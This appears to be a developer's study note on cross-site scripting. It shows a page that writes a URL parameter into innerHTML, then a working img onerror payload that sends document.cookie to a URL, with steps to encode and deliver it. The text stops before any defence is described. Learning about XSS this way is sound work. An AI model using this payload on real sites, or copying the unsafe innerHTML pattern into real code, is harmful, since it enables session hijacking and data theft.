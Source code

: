 # Design : FrontEnd


#### XSS:
**Cross site scripting: How to avoid?? What is it??**

suppose you have your website called "mango.com", If some hacker can able to inject piece of code or script from outside (externally from n number of places) and the hacker can able to stole the confidential information then you just fucked up. Now website current user is a victim, The data of that user is no more secure.(Account details and credentials are no longer secure now).User session hijacking (your cookie got leaked).

**Vulnarabilities:**

  1.User session hijacking: (Like the cookie got leaked)
  
  2.UnAuthorised activiy :
  
  3.capturing Keystrokes: (Somehas has injected a script to know what you are typing)
  
  4.Stealing critical Information: (Capturing DOM directly)
  
  5.Phishing attack:

**With XSS these vulnarabilities might be direct threat to your secured data.**

Simple Example::(Codes)

```js
<script>
    const param=new URLSearchParams(window.location.search);
    const name=param.get('name');
    document.getElementById('username').innerHTML=name
</script>
```

here we are just picking the query params. we are reading the name from q params. How this leads to the issues then???? Lets check. 
along with the same we'll set some cookies simply. (It set from server but for example we are doin it from frontend)

```js
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <h1 id="username">Hello</h1>
</body>
<script>
    function setCookies(name, value, ttl){
        const d=new Date();
        d.setTime(d.getTime()+(ttl+24*60));
        const expireon="expires "+ d.toUTCString();
        document.cookie=name+"="+value+"::"+expireon;
    }
    setCookies("Cookie name","vookie values",new Date().getDate());
</script>
<script>
    const param=new URLSearchParams(window.location.search);
    const name=param.get('name');
    document.getElementById('username').innerHTML=name
</script>
</html>
```

Now run it with live server.Now while passing the query params ,manupulate the url.

Passing simple query paramaters.
```js
http://127.0.0.1:5500/index.html?name=%22saurabh%22
```

Manupulating the URL:

```
'?name=<img src="does-not-exist" onerror="var img=document.createElement(\'img\'); img.src=\'http://127.0.0.1:5500/cookie?data=\'+ document.cookie; document.querySelector(\'body\').appendChild(img);">'

```
In previous days you can directly add a script to the query params but the browsers can detect it easily so this using image tag is a hack. If src is not exist in img tag it'll run onerror code...try running this code.
And make sure the URL is encoded:

use: encodeURIComponent is the browers api.

```js
encodeURIComponent('?name=<img src="does-not-exist" onerror="var img=document.createElement(\'img\'); img.src=\'http://127.0.0.1:5500/cookie?data=\'+ document.cookie; document.querySelector(\'body\').appendChild(img);">')
```

then pass it as a query param:

```js
localhost:<port>?<encoded uri given above>
```
